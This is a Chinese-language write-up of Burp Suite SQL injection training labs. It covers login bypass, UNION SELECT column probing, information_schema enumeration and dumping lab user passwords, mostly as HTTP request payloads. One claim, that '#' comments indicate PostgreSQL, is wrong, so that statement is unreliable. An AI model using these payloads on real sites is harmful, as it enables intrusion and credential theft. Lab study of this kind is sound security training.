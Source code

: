 ```yaml
---
title: BurpSuite_Lab
date: 2025-03-11 23:04:30
tags:
    - Burp Suite
    - CTF
    - Cybersecurity
---
```

## SQL Injection
该实验名称是SQL injection vulnerability in WHERE clause allowing retrieval of hidden data，打开Burp Suite，在浏览器中访问靶机地址，分析Burp Suite监听得到的数据包。
我们注意到他的filter使用的是直接嵌入网址中发起一个查询操作，在Burp Suite中的数据包产生如下，可以发现filter功能是直接使用Get获得相关数据，可以测试看看是否存在SQL Injection。
```HTTP
GET /filter?category=Gifts HTTP/2
```
使用下面的payload进行第一次测试，结果发现返回500错误，因此可以发现，该数值改变对服务器返回值产生直接影响，因此存在SQL注入漏洞。
```HTTP
GET /filter?category=Gifts'
```
那么可以考虑简单的万能payload，这个payload直接返回了所有的商品目录，事实上，做到这里这个简单的靶机实验便完成了，我们也可以看到SQL注入的威力。
```HTTP
GET /filter?category=Gifts'+or+1=1--
```

## User Bypass
该实验为sqli第二个实验。
尝试在username中直接输入`'`，发现存在注入问题。
简单来说就是一个登陆绕过，核心原因是server采取直接将用户输入值放入sql语句中进行查询造成了sql注入，绕过了登陆验证，直接访问了目标用户。
```HTTP
/login?username=administrator'--&password=abcdef
```

## UNION SELECT
与sqli-1类似，也是使用filter，且该filter变化能够导致服务器也产生相应的影响。
```HTTP
GET /filter?category=Gifts
```
如果直接加`'`可以导致服务器500错误，发现可能存在注入点。
尝试如下payload，依次验证合适的注入点。
```
GET /filter?category=Gifts' OR 1=1;--
GET /filter?category=Gifts' OR 1=1--
```
由于数据的结果呈现数据表的形式，因而返回值有可能是含多个值的组合，因此使用UNION SELECT NULL来验证存在多少个column值。
验证发现，但NULL数量为3时可以顺利返回值，故发现该sql查询返回column为3
此处使用NULL的原因是我们并不知道select的column值的类型，因此使用NULL，便可以正确执行。

## UNION SELECT 2
在上个靶机的基础上，使用单个逐次修改NULL为某一类型的值，例如1，'1'，来试验该位置的返回值类型，如果类型相同会返回200，类型不同返回500 Error。
```
/filter?category=' OR 1=1 UNION SELECT 1,NULL,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,1,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,NULL,1--


/filter?category=' OR 1=1 UNION SELECT 'a',NULL,NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,'a',NULL--
/filter?category=' OR 1=1 UNION SELECT NULL,NULL,'a'--
```
经过多次操作，如此便可以确定返回值类型，以满足题目要求。

## UNION SELECT 3
首先先用UNION SELECT测试其中有几个参数，不过根据网页的显示，能够猜测应该是两个值，而且应该都是string，一个是标题，一个是文本。
```
/filter?category=Pets' UNION SELECT NULL, NULL--
/filter?category=Pets' UNION SELECT 'a', 'b'--
```
接着我们就可以在这个基础上，继续进行注入测试。
information_schema.schemata是SQL中常见的默认表格，通过payload，我们可以发现，其中有三个重要的表格information_scheama, public, pg_catalog。
```
/filter?category=Pets' UNION SELECT 'a',schema_name from information_schema.schemata--
```
information_schema.tables包含了SQL中所有的tables，搜索可以发现其中有一个叫users的table，不难猜测，这个table大概率就是我们需要的table。
```
/filter?category=Pets' UNION SELECT 'a', table_name from information_schema.tables--
```
information_schema.columns包含了SQL中所有table的column，我们可以通过这个查询到某个表格的column名，经过查询不难发现users表格中存在三个列，username、email和password。
```
/filter?category=Pets' UNION SELECT 'a', column_name from information_schema.columns where TABLE_NAME='users'--
```
如此我们可以尝试将username和password查询一下，返回了三个user，可以尝试登录了，我还顺便查询了email的值，发现其实没有一个user的email存在。
```
/filter?category=Pets' UNION SELECT username, password from users--
wiene h20zlyz8adkisyyt5vjl
administrator 98p19olmcgbbrnbvs8ky
carlos hk1qz43lhberfddscdyu
```
有意思的是虽然存在三个user，但wiene是登陆不了的。
Lab到这里也便完成了。

## Union Select 4
与上题前面流程非常类似，不过这题的两个变量，一个是number，一个是string，事实上我们只需要使用string即可，而number可以忽略。
按照类似的方法，我们最终可以得到users表格中存在username、email和password列，我们需要的是username和password，但我们只有一个string，可以考虑字符串拼接。
根据如下payload我们便能顺利解出这道题了。
```
Gifts' union select 1,username || '~' || password from users--

carlos~7ausrn2nfdbbr86d1b46
wiener~r0tzsd0a9ozg07nosu6h
administrator~bid7qv0usls2gbtoyt1c
```

## DataBase 1
本题与前面的题目也是类似的，只是本题无法接受`--`作为注释符号，只接受`#`作为注释符号，而很明显一般来说只有PostgreSQL才使用`#`作为注释符号，那么题目便坚决了。
```
Gifts' UNION SELECT 'a', version()#
```

## DataBase 2
